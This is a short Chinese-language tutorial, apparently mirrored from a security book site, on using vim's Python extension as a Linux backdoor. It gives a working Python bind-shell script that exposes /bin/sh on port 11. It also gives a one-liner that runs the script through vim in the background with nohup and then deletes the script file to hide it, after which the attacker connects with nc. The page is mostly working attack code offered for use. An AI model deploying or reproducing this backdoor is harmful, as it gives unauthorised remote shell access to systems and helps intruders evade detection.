

# vim python 扩展后门

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/10.html](http://book.iwonder.run/安全技术/Linux 后门/10.html)

适用于安装了 vim 且安装了 python 扩展(绝大版本默认安装)的 linux 系统。可以通过 vim 的 pyfile 来执行 python 脚本。这里我复现使用了 docker centos 6.8，yum 默认安装的 vim。下面的 pdf 是发现者对外公开的思路：

> [https://github.com/ianxtianxt/WOTD](https://github.com/ianxtianxt/WOTD)

这里我们使用一个 python 开启本地监听 11 端口的脚本。 POC:

```
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True) 
```

```
$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py 
```

执行以后：




我在攻击机 nc 连接过去就可以了。

